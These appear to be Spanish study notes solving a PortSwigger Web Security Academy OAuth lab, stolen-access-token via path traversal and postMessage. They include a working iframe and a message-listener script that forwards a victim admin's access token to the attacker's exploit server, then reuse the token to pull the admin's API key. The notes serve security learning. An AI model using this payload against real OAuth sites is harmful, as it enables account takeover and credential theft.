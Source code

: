 En esta clase final, se combina todo lo aprendido para construir un exploit completo. Se crea un iframe que inicia el flujo OAuth con el **redirect_uri** apuntando al formulario de comentarios vulnerable, el cual reflejará el token en su propiedad ‘**location.href**‘.

Debajo del iframe, se implementa un script que escucha eventos **message** desde el iframe, y envía los datos recibidos (incluyendo el token) como una petición al exploit server. Esto permite registrar en el access log el token de acceso del administrador.

Una vez recibido el token, se utiliza en el endpoint **/me** del blog para realizar una petición autenticada como el administrador. La respuesta devuelve los datos personales y la API key, la cual se emplea para resolver el laboratorio.

Este ejercicio demuestra cómo una combinación de path traversal, comportamiento de proxy inseguro y falta de restricciones en postMessage puede comprometer por completo una cuenta privilegiada en un entorno OAuth.

Solucion
Vamos a crear un script en nuestro exploit server
para hacer el iframe hay que inteceptar despues de deslogearnos y en el apartado de carga es ahi donde interceptamos vamos a poner el host y la parte de arriba y vamos a poner despues del callback el (/../post/comment/comment-form)
![Pasted_image_20250830193959.png](Imagenes/Pasted_image_20250830193959.png)
<'iframe src="https://oauth-0aab00270358900a80603d6d028500d5.oauth-server.net/auth?client_id=g2x5o5192ufzif2j33ser&redirect_uri=https://0ad9005203d590bb80333f79006900eb.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=1641080511&scope=openid%20profile%20email"></iframe'>

<script>
    window.addEventListener('message', function(e) {
        fetch("/" + encodeURIComponent(e.data.data))
    }, false)
</script>
![Pasted_image_20250830194353.png](Imagenes/Pasted_image_20250830194353.png)
 le damos store enviamos a la victima y miramos los acces log recargando y vemos el access token 
![Pasted_image_20250830194512.png](Imagenes/Pasted_image_20250830194512.png)
lo pegamos en el authorization y le damos send
![Pasted_image_20250830194554.png](Imagenes/Pasted_image_20250830194554.png)
y ya solo copiamos la api key y pegamos en la pagina
![Pasted_image_20250830194626.png](Imagenes/Pasted_image_20250830194626.png)

 